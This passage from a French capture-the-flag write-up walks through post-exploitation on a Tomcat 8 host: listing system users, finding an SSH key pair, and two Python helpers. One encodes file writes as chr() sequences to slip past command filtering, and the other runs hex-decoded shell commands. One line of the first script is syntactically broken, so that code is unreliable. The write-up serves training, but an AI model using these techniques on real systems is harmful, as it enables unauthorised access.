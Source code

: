 Il y a une fonction de test qui m'a permis de vérifier la bonne exécution en local.  

On aurait pu penser alors que le fichier */etc/tomcat8/tomcat-users.xml* contiennent des identifiants pour l'accès *manager*... mais ce n'est pas le cas.  

A ce stade je note la présence de trois users sur le système :  

```plain
pollinate:x:111:1::/var/cache/pollinate:/bin/false
tomcat8:x:112:115::/usr/share/tomcat8:/bin/false
bill:x:1000:1000:bill,,,:/home/bill:/bash
```

Comme on s'y attend on a les privilèges *tomcat8* (il suffit de faire un touch suivi d'un ls pour s'en rendre compte).  

J'ai continué à fouiller mais le plus intéressant que j'ai trouvé c'est une paire clé publique/privée SSH dans */usr/share/tomcat8/.ssh* (via un *find / -user tomcat8 -ls* des familles)  

[Il parait que t'as des propos intolérables, où il n'y a pas de tolérance](https://www.youtube.com/watch?v=Op9eonnohNA)
-----------------------------------------------------------------------------------------------------------------------

Bon c'est pas mal mais sans exécution de commande plus poussée on ne va pas bien loin.  

En dehors du problème de colonnes mentionné plus haut, le script n'est pas vraiment bash-aware et semble plus exécuter les commandes via *execve* que par un *bash -c*. En gros on oublie les redirections, les pipe, les backticks, les points virgules et autres joyeusetés...  

Idem pour les quotes, double-quotes... bref c'est intolérable !  

Ce n'est pas la première fois que je croise une situation comme ça mais là il était tant de faire quelque chose ! En mode Python s'il vous plait !  

J'ai donc d'abord écrit le script *write\_to\_file.py* qui permet d'utiliser les fonctions de base de Python pour écrire un fichier sur le serveur :  

```python
import sys

if len(sys.argv) < 3:
    print("Usage: {} local_file server_file"()

def to_chr(data):
    return "+".join(["chr({})".format(ord(c)) for c in data])

text = open(sys.argv[1]).read()
dest = sys.argv[2]

print("open({},chr(119)).write({})".format(to_chr(dest), to_chr(text)))
```

et dans un deuxième temps un script *pyexec.py* qui prend en argument une chaîne hexa, la décode et exécute la commande bash obtenue en prenant soin de sortir chaque ligne d'output sur la dernière colonne :  

```python
from subprocess import getoutput
from binascii import unhexlify
import sys

cmd = unhexlify(sys.argv[1]).decode()
x = getoutput(cmd).splitlines()
for l in x:
    print("a b c d e f g h "+l)
```

